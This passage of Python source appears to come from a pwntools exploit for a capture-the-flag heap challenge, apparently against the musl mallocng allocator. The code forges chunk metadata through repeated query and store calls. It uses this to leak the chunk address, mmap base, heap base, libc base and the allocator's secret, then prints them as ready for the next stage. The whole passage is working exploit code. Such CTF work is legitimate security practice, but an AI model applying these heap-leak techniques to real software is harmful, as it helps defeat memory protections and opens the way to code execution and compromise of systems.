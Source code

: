         for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        store(b'aa',2,b'c'*0x1200,0x1200)
        #gdb.attach(io)
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        chunk_addr = int(true_addr,16)-0x80 #actvie[0]->group addr
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        mmap_base =int(true_addr,16)-0x20 #0x1200 mmap base 

        print("chunk_addr:"+hex(chunk_addr))
        print("mmap_base:"+hex(mmap_base))

        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(p64(chunk_addr+0x50)+p64(chunk_addr)+p64(2)+p64(0x30)+p64(0x0000000014d6c0ff)+p64(0),0x30) # usage[0] -> chunk
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        heap_base = int(true_addr,16)-0x1a8
        print("heap_base:"+hex(heap_base))

        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(p64(chunk_addr+0x50)+p64(heap_base+0xf0)+p64(2)+p64(0x10)+p64(0x0000000014d6c0ff)+p64(0),0x30) # usage[0] -> chunk
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        libc.address = int(true_addr,16)-0x9e0a0-0x15000
        print("libc.addr:"+hex(libc.address))

        for i in range(2):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(p64(chunk_addr+0x50)+p64(heap_base)+p64(2)+p64(0x10)+p64(0x0000000014d6c0ff)+p64(0),0x30) # usage[0] -> chunk
        query(usage[0],len(usage[0]))
        io.recvuntil(":")
        addr = io.recv(16)
        true_addr = addr[14:16]+addr[12:14]+addr[10:12]+addr[8:10]+addr[6:8]+addr[4:6]+addr[2:4]+addr[0:2]
        secret = int(true_addr,16)
        print("secret:"+hex(secret))

        print("---------------------------------------------------------")
        print("now all info we need is ok!")
        print(" ")
        print("chunk_addr:"+hex(chunk_addr)) #active[0]-> group addr
        print("mmap_base:"+hex(mmap_base)) #0x1200 position
        print("heap_base:"+hex(heap_base)) # meta_arena
        print("secret:"+hex(secret))
        print("libc.addr:"+hex(libc.address))
